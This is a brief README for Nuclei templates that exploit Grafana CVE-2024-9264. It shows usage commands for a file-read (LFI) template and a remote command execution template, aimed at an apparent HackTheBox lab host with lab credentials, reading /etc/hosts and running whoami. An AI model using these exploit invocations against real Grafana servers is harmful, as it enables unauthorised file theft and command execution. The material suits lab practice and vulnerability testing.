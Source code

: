 # Nuclei Blues: Nuclei templates

![](/img/nuclei-blues.png)

## Grafana

### CVE-2024-9264

#### grafana-cve-2024-9264-lfi.yaml - LFI 

The `grafana-cve-2024-9264-lfi.yaml` template leverages the vulnerability to exfiltrate files from the target.

Please note that you may need to escape slashes when specifying the path of the file you want to read in the rfile variable to prevent Nuclei from trying to open the file on your system.

```sh
nuclei -u http://grafana.planning.htb -t ./grafana-cve-2024-9264-lfi.yaml -var username=admin -var password=0D5oT70Fq13EvB5r -var rfile="\/etc\/hosts"
```

##### grafana-cve-2024-9264-rce.yaml - RCE

The `grafana-cve-2024-9264-rce.yaml` template leverages the vulnerability to run commands the target.

```sh
nuclei -u http://grafana.planning.htb -t ./grafana-cve-2024-9264-rce.yaml -var username=admin -var password=0D5oT70Fq13EvB5r -var command=whoami
```
